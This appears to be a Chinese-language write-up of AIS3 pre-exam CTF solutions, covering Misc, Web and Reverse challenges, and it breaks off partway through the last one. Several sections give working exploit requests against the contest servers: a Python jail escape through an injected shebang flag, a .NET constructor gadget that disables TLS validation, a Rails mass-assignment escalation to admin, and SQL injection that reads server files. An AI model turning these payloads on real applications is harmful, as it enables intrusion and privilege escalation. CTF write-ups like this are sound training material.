









# Summary

這是第三年打 pre-exam，拿到 18 名，比去年進步 53 幾名，感謝 AI Agent 的幫助 :)



---

## Welcome

* Tag：`Misc`

1. 會連到一個網站快速變動 QR code，截一張給手機掃描看看
2. 對著 QR code 動畫掃一掃就會拿到圖片，裡面有 Flag

## 想在雪中來杯下午茶嗎？

* Tag：`Misc`

1. 左側的白色牌子可以看到**上枝 3 號踏切**和電話 0748-24-1431，右邊的狗狗牌子可以發現豐鄉町


2. 查一下就能看到[日本鐵道圖](https://fumikiri.info/?page_id=6117)，開 google map 走過去[這裡](https://maps.app.goo.gl/BSnYBEHNcbUBVk9e6)：


## Jail

- Tags：`Misc`

1. 主頁直接回顯原始碼，有黑名單字元、

```python
#flag is at /flag

from flask import Flask,request,send_file
import os,time,uuid,unicodedata

app = Flask(__name__)

shebang = '#!/usr/local/bin/python3'

@app.route('/')
def index(): return send_file(__file__)

@app.post('/<uid>')
def run(uid):
    uuid.UUID(uid)
    d = unicodedata.normalize("NFKC", request.data.decode())
    assert not any(i in d for i in "()_[]{}.@#")
    open(f"data/{uid}","w").write(shebang + d)
    os.chmod(f"data/{uid}", 0o755)
    os.popen(f"./data/{uid} > ./output/{uid}")
    time.sleep(1)
    r = open(f"output/{uid}","r").read()
    return r

if __name__ == "__main__":
    app.run("0.0.0.0",port=8000)
```

2. 發現  `shebang` does not end with a newline，因此我們輸入的 1st byte 會接在他後面。所以想到的 payload 如下：

```python
#!/usr/local/bin/python3 -Xcoding:unicode-escape
```

3. 我們想執行的 script 是  `print(open('/flag').read())`，encode 後是 `print\x28open\x28'/flag'\x29\x2eread\x28\x29\x29`。所以整個 POST Request Body 是：

```text
 -Xcoding:unicode-escape
print\x28open\x28'/flag'\x29\x2eread\x28\x29\x29
```

4. 使用一個有效的 UUID 當作路徑參數，並發送 body (raw)：

```bash
uid=$(python3 -c 'import uuid; print(uuid.uuid4())')
body=$' -Xcoding:unicode-escape\nprint\\x28open\\x28\047/flag\047\\x29\\x2eread\\x28\\x29\\x29'

curl -sS \
  -H 'Content-Type: application/octet-stream' \
  --data-binary "$body" \
  "http://chals1.ais3.org:10001/$uid"
```

5. 得到 Flag：

```text
#!/bin/true
#AIS3{5H3_BA_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_A_NG!}
```

## Jail Revenge

- Tags：`Misc`

1. 主頁同樣回顯原始碼，與原題不同之處是會限制第一行輸入長度

```python
#flag is at /flag

from flask import Flask,request,send_file
import os,time,uuid,unicodedata

app = Flask(__name__)

shebang = '#!/usr/local/bin/python3'

@app.route('/')
def index(): return send_file(__file__)

@app.post('/<uid>')
def run(uid):
    uuid.UUID(uid)
    d = unicodedata.normalize("NFKC", request.data.decode())
    assert not any(i in d for i in "()_[]{}.@#") and len(d.split("\n")[0]) < 50
    open(f"data/{uid}","w").write(shebang + d)
    os.chmod(f"data/{uid}", 0o755)
    os.popen(f"./data/{uid} > ./output/{uid}")
    time.sleep(1)
    r = open(f"output/{uid}","r").read()
    return r

if __name__ == "__main__":
    app.run("0.0.0.0",port=8000)
```

2. 打點和 Jail 一樣，只是多限制第一行只能 24 char。我們想執行的 script 是  `print(repr(open('/flag').read()))`，進行編碼後是 `print\x28repr\x28open\x28'/flag'\x29\x2eread\x28\x29\x29\x29`。所以整個 POST Request Body 是：

```text
 -Xcoding:unicode-escape
print\x28repr\x28open\x28'/flag'\x29\x2eread\x28\x29\x29\x29
```

3. 使用一個有效的 UUID 當作路徑參數，並發送 body (raw)：

```bash
uid=$(python3 -c 'import uuid; print(uuid.uuid4())')
body=$' -Xcoding:unicode-escape\nprint\\x28repr\\x28open\\x28\047/flag\047\\x29\\x2eread\\x28\\x29\\x29\\x29'

curl -sS \
  -H 'Content-Type: application/octet-stream' \
  --data-binary "$body" \
  "http://chals1.ais3.org:10002/$uid"
```

4. 得到 Flag：

```text
'#!/bin/true\n#AIS3{D3MN_21P_PYD0C_A5_-_-MA1N-_-_D07_PY}\n'
```

## Give Me Flag

- Tags：`Web` (ASP.NET Core 8.0)

1. 先請 AI 看一下架構：
	- `/` 是 Drop 頁面，使用者輸入 collector IP 後，server 會送 HTTPS POST 到該 IP 的 `/api/flag`。由於 `IndexModel` 使用 `IPAddress.TryParse` 驗證輸入，不能直接提交 domain name 來控制 TLS SNI 或 hostname。
	- `/Support` 是 component preview 頁面，使用者可提交 `Preview.Template` 與 `Preview.Accent`。正常情況下它會把 `status/network` 轉成內建 type，例如 `GiveMeFlag.Support.Templates.StatusNetworkCalmCard`。

2. 在 `FlagDeliveryService.cs` 可以發現，從 configuration/env 讀取 flag 與 delivery 參數：

```csharp
_flag = configuration["FLAG"] ?? "AIS3{missing_flag}";
_host = configuration["Challenge:Host"] ?? "flag-dropbox.givemeflag.internal";
_postPath = configuration["Challenge:PostPath"] ?? "/api/flag";
_port = int.TryParse(configuration["Challenge:Port"], out var result) ? result : 443;

// send JSON:
// {"flag":"...","challenge":"GiveMeFlag","sent_at":"..."}
```

3. 這個請求是使用 `HttpWebRequest`，預設會驗證 TLS 憑證，所以直接架自簽 HTTPS server 會失敗，頁面只會顯示 The outbound HTTPS request failed.

```csharp
HttpWebRequest httpWebRequest = WebRequest.CreateHttp(endpoint);
httpWebRequest.Method = "POST";
httpWebRequest.Host = _host;
httpWebRequest.ContentType = "application/json";
```

4. 在 `SupportModel.OnPostPreview` 可以發現，會把使用者輸入交給 `PreviewComponentResolver.Create`，然後呼叫物件的 `ToString()`:

```csharp
CardText = PreviewComponentResolver.Create(Preview.Template, Preview.Accent)?.ToString()
    ?? "The selected card did not render any content.";
```

5. `PreviewComponentResolver.ParseDescriptor` 支援 `{name}#{metadata}` 格式，其中 `#` 後方的 metadata 會做 URL decode：

```csharp
int num = text.IndexOf('#', StringComparison.Ordinal);
if (num >= 0)
{
    metadata = Uri.UnescapeDataString(text.Substring(num + 1, ...));
    text = text.Substring(0, num);
}
```

6. 如果 metadata 非空，程式直接把 metadata 當 type name：

```csharp
Type type = Type.GetType(
    !string.IsNullOrWhiteSpace(descriptor.Metadata)
        ? descriptor.Metadata
        : ResolveBuiltInTypeName(descriptor),
    LoadFromApplicationDirectory,
    null,
    throwOnError: true);
```

7. 接著只檢查：
	-  type 不是 abstract
	- type 不是 interface
	- type 有 public no-arg constructor

8. assembly resolver 會從 app base directory 載入 DLL。因為 Dockerfile 會把整個 `publish/` 放到 `/app`，所以 `publish/` 裡所有 DLL 都是可解析目標。

```csharp
string text = Path.Combine(AppContext.BaseDirectory, assemblyName.Name + ".dll");
return AssemblyLoadContext.Default.LoadFromAssemblyPath(text);
```

9. 在 `Microsoft.Office.Server.Search.Connector.dll` 裡面有：

```csharp
namespace Microsoft.Office.Server.Search.Connector.BDC.Exchange;

public class ExchangeSystemUtility : StructuredRepositorySystemUtility<ExchangeProxy>
{
    private static bool ValidateCertificates(...) => true;

    static ExchangeSystemUtility()
    {
        ServicePointManager.ServerCertificateValidationCallback =
            (RemoteCertificateValidationCallback)Delegate.Combine(
                ServicePointManager.ServerCertificateValidationCallback,
                new RemoteCertificateValidationCallback(ValidateCertificates));
    }
}
```

- 這個 class 符合 `PreviewComponentResolver` 的檢查：
	- public class
	- 繼承的 base class 提供 public no-arg constructor
	- static constructor 在第一次建立 instance 前自動執行
	- static constructor 修改的是 process-wide global state
- 觸發後，整個 ASP.NET process 後續 HTTPS request 都會接受任意憑證

10. 開始戳機器，成功時 preview 會建立 `ExchangeSystemUtility` instance，並執行 static constructor。

```bash
curl -s -c /tmp/cookies.txt "$BASE_URL/Support" > /tmp/support.html
TOKEN=$(grep -oP 'name="__RequestVerificationToken" type="hidden" value="\K[^"]+' /tmp/support.html)

curl -s -b /tmp/cookies.txt \
  -X POST "$BASE_URL/Support?handler=Preview" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "__RequestVerificationToken=$TOKEN" \
  --data-urlencode "Preview.Template=x#Microsoft.Office.Server.Search.Connector.BDC.Exchange.ExchangeSystemUtility, Microsoft.Office.Server.Search.Connector" \
  --data-urlencode "Preview.Accent=calm"
```

11. 送出 collector IP，server 會向這裡送 Flag：

```bash
# https://10.26.1.2/api/flag
# Host: flag-dropbox.givemeflag.internal
# Content-Type: application/json

curl -s -c /tmp/cookies2.txt "$BASE_URL/" > /tmp/drop.html
TOKEN2=$(grep -oP 'name="__RequestVerificationToken" type="hidden" value="\K[^"]+' /tmp/drop.html)

curl -s -b /tmp/cookies2.txt \
  -X POST "$BASE_URL/" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "__RequestVerificationToken=$TOKEN2" \
  --data-urlencode "Input.TargetIp=10.26.1.2"
```

12. 讀取收到的 POST body：

```json
{"flag":"AIS3{c_5h4rp_c0n57ruc70r_p0llu710n_59ede4ed545f41fba92ed19821e7b0bc}","challenge":"GiveMeFlag","sent_at":"..."}
```

## Mass Rapid Transit

- Tags：`Web`

1. 先查看首頁，發現網站是一個「AIS 捷運公司」資訊平台，功能包含：路網圖、車站資訊、失物招領、登入/註冊，回應標頭與 HTML 中的 CSRF token 格式顯示這是一個 Ruby on Rails 網站：

```html
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="..." />
```

2. 接著查看 robots.txt，這裡洩漏了後台路徑 `/admin`。直接存取 `/admin` 會被重新導向回首頁，表示後台存在但需要管理員權限。

```text
User-agent: *
Disallow: /admin
```

3. 網站提供公開註冊功能，註冊後會登入一般旅客帳號。登入後進入 `/profile`，頁面顯示目前角色是**旅客**：

```html
<span class="badge">旅客</span>
```

4. 個人資料頁面有一個更新表單，送到 `/profile`：

```html
<form data-turbo="false" action="/profile" method="post">
  <input type="hidden" name="_method" value="patch" />
  <input type="text" name="user[username]" />
  <input type="email" name="user[email]" />
  <input type="text" name="user[full_name]" />
  <input type="tel" name="user[phone]" />
  <input type="text" name="user[favorite_station]" />
</form>
```

> 因為這是 Rails 網站，而且表單使用 `user[...]` 這種巢狀參數格式，所以懷疑可能有 strong parameters 設定錯誤，導致 mass assignment。

5. 測試時，在更新個人資料的請求中額外加入 `user[role]=admin`，也就是原本表單只允許更新個人資料，但後端錯誤地允許使用者更新自己的 `role` 欄位。範例請求格式如下：

```bash
curl -b cookie.txt -c cookie.txt \
  -X POST 'http://chals1.ais3.org:10003/profile' \
  --data-urlencode '_method=patch' \
  --data-urlencode 'authenticity_token=<CSRF_TOKEN>' \
  --data-urlencode 'user[username]=<USERNAME>' \
  --data-urlencode 'user[email]=<EMAIL>' \
  --data-urlencode 'user[full_name]=<NAME>' \
  --data-urlencode 'user[role]=admin'
```

6. 更新成功後重新查看 `/profile`，角色變成管理員，可以訪問管理後台，公告顯示：

```text
【內部】系統金鑰與稽核紀錄

本次系統稽核金鑰如下，僅供授權管理員存取：

AIS3{R41ls_4P1_M4ss_4ss1gnm3nt_2_AIS_4dm1n}

請勿外洩，稽核週期為每季一次。
```
## MyGO!!!!! X Ave Mujica 圖庫

- Tags：`Web`

1. 首頁是一個圖片圖庫，提供圖片列表與圖片上傳功能。前端會用以下 API：

```sh
# read image
/image?id=1

# upload image
POST /upload
```

2. 先檢查是否有 robots.txt，看到 `.svn` 表示網站部署時可能留下 Subversion working copy metadata。
3. 直接存取 `/.svn/wc.db` 會 404，但 `/image?id=` 有異常行為。測試 SQL injection，可以成功讀到 `app.py`。

```sh
curl 'http://chals1.ais3.org:48763/image?id=1%20UNION%20SELECT%20%27app.py%27'

# app.py
@app.get("/image")
def image():
    image_id = request.args.get("id")
    cur = db.execute(f"SELECT path FROM images WHERE id = {image_id};").fetchone()
    return send_file(cur[0])
```

4. 利用 SQL injection 讀取 SVN working copy database

```sh
curl -s -o /tmp/ais3_wc.db \
  'http://chals1.ais3.org:48763/image?id=-1%20UNION%20SELECT%20%27/proc/self/cwd/.svn/wc.db%27'
```

5. 查詢 SVN 追蹤的檔案，然後看到很星爆的東西：

```sh
sqlite3 /tmp/ais3_wc.db \
  'select local_relpath, checksum from NODES where kind="file";'
  
super_secret_starburst_flag114514.txt|$sha1$38b96d193f20bfafaed25e54ac4c9f3e35607424

curl -s \
  'http://chals1.ais3.org:48763/image?id=-1%20UNION%20SELECT%20%27/proc/self/cwd/super_secret_starburst_flag114514.txt%27'

# AIS3{BangDream_AveMujica_Exitus_at_Taiwan_8/8_and_I_don't_have_ticket}
```

## tetris，簡單

- Tags：`Reverse`

1. 先看題目的資訊，並且用字串大法：

```text
ELF 64-bit LSB executable, x86-64, statically linked, stripped

Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled

[1;36mTETRIS - Score: %d | Lines: %d
Press any key to continue...
Game Over! Final Score: %d
Lines Cleared: %d
Press ENTER to start...
```

2. 可以看到疑似加密的東西：
	- `.rodata` at `0x17371e0`：Tetris pattern constants.
	- `.data` at `0x1aa6130`：encrypted flag bytes.

```text
2e a5 56 46 0d 7c 8e dc 83 6f 30 83 ff f8 a5 5c
d0 76 d8 cd 99 dc 3f 39 9d 65 70 64
```

3. 會用 seed 和 FNV-like 的算法進行計算，然後衍生出 24-byte 的金鑰，最後用 RC4-like KSA/PRGA 來解密 28-byte blob：

```c
seed = 0x811c9dc5;
for each pattern_dword:
    seed ^= pattern_dword;
    seed *= 0x1000193;
# ...
key[i] = seed >> ((i % 4) * 8);
seed = (seed * 0x41c64e6d + 0x3039) & 0x7fffffff;
```

4. 寫個腳本解出來：

```python
vals = [
    5,0,5,0,1,0,4,4,4,0,5,5,5,0,1,0,
    4,0,0,0,5,0,5,0,1,0,0,4,4,0,5,0,
    5,0,1,0,4,4,0,3,
]

seed = 0x811c9dc5
for v in vals:
    seed ^= v
    seed = (seed * 0x1000193) & 0xffffffff

key = []
for i in range(24):
    key.append((seed >> ((i & 3) * 8)) & 0xff)
    seed = (seed * 0x41c64e6d + 0x3039) & 0x7fffffff

ct = bytes.fromhex(
    "2ea556460d7c8edc836f3083fff8a55c"
    "d076d8cd99dc3f399d657064"
)

S = list(range(256))
j = 0
for i in range(256):
    j = (j + S[i] + key[i % len(key)]) & 0xff
    S[i], S[j] = S[j], S[i]

i = j = 0
pt = bytearray()
for c in ct:
    i = (i + 1) & 0xff
    j = (j + S[i]) & 0xff
    S[i], S[j] = S[j], S[i]
    k = S[(S[i] + S[j]) & 0xff]
    pt.append(c ^ k)

print(pt.decode())

# AIS3{T3tr1s_P4tt3rn_M4st3r!}
```

## ㄌㄨㄚˋ

- Tags：`Reverse`

- `secret.luac`：Lua 5.1 bytecode header
- `luac_stripped.exe`：Windows x86-64 PE，內含被修改過的 Lua 5.1 VM

1. `luac_stripped.exe` 的 `main` 被改成只印提示，不能直接拿來編譯或執行題目：

```text
This compiler has been disabled for the CTF challenge.
Reverse engineer this binary to discover the OpCode mapping!
```

2. 發現 `secret.luac` 的 header 是 ，但 proto 格式被加了一個額外 byte。標準 Lua 5.1 proto 在讀完 `nups` 後會接 `numparams/is_vararg/maxstacksize`，這題中間多了一個 key：

```text
1b 4c 75 61 51 00 01 04 08 04 08 00

source
linedefined
lastlinedefined
nups
key
numparams
is_vararg
maxstacksize
code
constants
protos
debug info
```

3. VM dispatch 不直接使用 instruction 低 6 bits，而是會依 proto key 和 pc 做 XOR 混淆。從 `luaV_execute` 還原出的解碼方式如下。其中 `pc0` 是 zero-based instruction index，`key` 是 proto 裡多出來的 byte。

```python
op = (instr ^ (key ^ 0x2b) ^ (15 * pc0 + 0x11)) & 0x3f
```

4. 從 `luaV_execute` jump table 和各 case 的行為，題目會用到的 opcode mapping 如下：

```text
op01 ADD
op02 MOVE
op04 LOADK
op05 LOADBOOL
op08 SUB
op09 GETUPVAL
op10 JMP
op11 GETGLOBAL
op12 GETTABLE
op15 MUL
op16 SETTABLE
op17 DIV
op18 MOD
op19 NEWTABLE
op22 LEN
op23 LT
op24 TEST
op27 EQ
op28 CALL
op29 TAILCALL
op30 RETURN
op31 FORLOOP
op32 FORPREP
op33 SETLIST
op35 CLOSURE
```

5. main chunk 主要流程可還原成：

```lua
io.write("> ")
local s = io.read()
if check(s) then
  print("ok")
else
  print("no")
end
```

6. 子函式大致分成幾類：
	- byte-wise XOR helper
	- table transform helper
	- table interleave helper
	- key table generator
	- target table generator
	- validator
7. 其中 validator 會先產生兩個 table：

```text
key table:
23, 88, 41, 199, 17, 90, 250, 61, 143, 12, 77

target table:
158, 35, 172, 11, 160, 217, 123, 62, 248, 242, 88,
51, 84, 125, 92, 152, 46, 62, 166, 147, 23, 73,
80, 220, 153, 6, 67, 13, 195, 5, 91, 6, 32
```

8. 把 validator 的核心檢查整理如下，因為每一輪只跟當前 byte、state、key 有關，而且 `xor()` 可逆，所以可以逐 byte 反推輸入。

```python
state = 65

for i in range(1, len(target) + 1):
    k = key[(i * 5 + state) % len(key)]
    x = input[i - 1]

    v = xor((x + i + state) % 256, (k + i * 7) % 256)
    v = (v + xor(k, i) % 13) % 256

    if v != target[i - 1]:
        return False

    state = (state + v + k + i * 3) % 256

return state == 229
```

9. 所以撰寫解密腳本：

```python
def bxor(a, b):
    return int(a) ^ int(b)

key = [23, 88, 41, 199, 17, 90, 250, 61, 143, 12, 77]
target = [
    158, 35, 172, 11, 160, 217, 123, 62, 248, 242, 88,
    51, 84, 125, 92, 152, 46, 62, 166, 147, 23, 73,
    80, 220, 153, 6, 67, 13, 195, 5, 91, 6, 32,
]

state = 65
out = []

for i, tgt in enumerate(target, 1):
    k = key[(i * 5 + state) % len(key)]
    for x in range(256):
        v = bxor((x + i + state) % 256, (k + i * 7) % 256)
        v = (v + bxor(k, i) % 13) % 256
        if v == tgt:
            out.append(x)
            state = (state + v + k + i * 3) % 256
            break

print(bytes(out).decode())
print(state)

# AIS3{Lu4_0pc0d3_Shuffl1ng_1s_Fun}
```

## 哇!金色傳說

- Tags：`Reverse`

1. 解壓縮 B.zip 後，可以看到這是一個 Unity Windows build，且包含 Mono managed assembly。因為有 `Reverse1_Data/Managed/Assembly-CSharp.dll`，代表這不是 IL2CPP，而是 Mono 版 Unity。主要遊戲邏輯會在 `Assembly-CSharp.dll` 中。

```text
B/Reverse1.exe
B/UnityPlayer.dll
B/MonoBleedingEdge/...
B/Reverse1_Data/Managed/Assembly-CSharp.dll
```

2. 先用字串搜尋大法爬 DLL，可以看到一些可疑字串。這表示遊戲內有一個抽卡 server，client 會把玩家狀態送到遠端：

```text
GachaServer
UsernameUI
http://chals1.ais3.org:50001
{{"spend":{0},"rate":{1:F4},
"username":"
"gold":{0},"score":{1},"kills":{2}}}
```

3. 安裝 `mono-utils`，使用 `monodis` 反組譯後搜尋 `GachaServerUrl`，在 `GameManager` constructor 中找到 server URL：

```sh
rg -n "GachaServerUrl|chals1|RollCoroutine|LocalFallback" /tmp/ais3_b/Assembly-CSharp.il

# server url
IL_0001:  ldstr "Anonymous"
IL_0006:  stfld string GameManager::'<PlayerName>k__BackingField'
IL_000c:  ldstr "http://chals1.ais3.org:50001"
IL_0011:  stfld string GameManager::'<GachaServerUrl>k__BackingField'
```

4. `GachaServer/<RollCoroutine>d__7::MoveNext` 會組出 POST body。重點 IL 如下：

```il
IL_001f:  ldc.r4 0.
IL_0024:  ldc.r4 0.30000001192092896
IL_0029:  call float32 class [UnityEngine.CoreModule]UnityEngine.Random::Range(float32, float32)
IL_002e:  stloc.2

...

IL_007f:  ldstr "{{\"spend\":{0},\"rate\":{1:F4},"
...
IL_009d:  ldstr "\"username\":\""
...
IL_00b6:  ldstr "\"gold\":{0},\"score\":{1},\"kills\":{2}}}"
```

5. 還原成近似 C#，正常遊戲流程下，`rate` 應該只會落在 `0.0 <= rate <= 0.3` 左右。

```csharp
float rate = UnityEngine.Random.Range(0.0f, 0.3000000119f);

string body =
    string.Format("{{\"spend\":{0},\"rate\":{1:F4},", spend, rate) +
    "\"username\":\"" + EscapeJson(username) + "\"," +
    string.Format("\"gold\":{0},\"score\":{1},\"kills\":{2}}}", gold, score, kills);

var req = new UnityWebRequest(url, "POST");
req.uploadHandler = new UploadHandlerRaw(Encoding.UTF8.GetBytes(body));
req.downloadHandler = new DownloadHandlerBuffer();
req.SetRequestHeader("Content-Type", "application/json");
req.timeout = 3;
```

6. 偽造 POST request，把 `rate` 設成正常 client 不會產生的值，例如 `0.3001`：

```bash
curl -sS -X POST http://chals1.ais3.org:50001 \
  -H 'Content-Type: application/json' \
  --data '{"spend":1000,"rate":0.3001,"username":"x","gold":0,"score":0,"kills":0}'
```

7. server 回傳：

```json
{
  "weapon": {
    "name": "Sword IV",
    "damage": 34.3,
    "maxDurability": 274,
    "range": 3.2,
    "angle": 65.0,
    "cooldown": 0.55,
    "bonusGoldPercent": 0.0,
    "lifestealPercent": 0.0
  },
  "armor": {
    "name": "AIS3{At_Least_U_DIDNT_MODIFY_MY_MONEY_RIGHT?}",
    "slot": "Body",
    "damageReduction": 0.2,
    "bonusMaxHp": 15,
    "bonusSpeed": 0
  }
}
```

## Hidden in the Cloak

- Tags：`Reverse`

1. 觀察 Unity 專案結構，可以看到 asset bundle：

```bash
/tmp/ais3_cloak/B/Reverse1_Data/StreamingAssets/bundles/character_main
```

2. 用 `strings` 可以確認它是 UnityFS asset bundle，且包含 Spine 角色資料：

```sh
strings -a /tmp/ais3_cloak/B/Reverse1_Data/StreamingAssets/bundles/character_main

UnityFS
character.png
character.atlas
skeletonJSON
idle
walk
emote_a
```

3. 使用 `uv` 啟動臨時 Python 環境，透過 UnityPy 抽出 asset bundle：

```python
# uv run --with UnityPy --with pillow python extract.py

import UnityPy
from pathlib import Path

bundle = Path("/tmp/ais3_cloak/B/Reverse1_Data/StreamingAssets/bundles/character_main")
out = Path("/tmp/ais3_cloak/extracted")
out.mkdir(parents=True, exist_ok=True)

env = UnityPy.load(str(bundle))
for obj in env.objects:
    data = obj.read()

    if obj.type.name == "Texture2D":
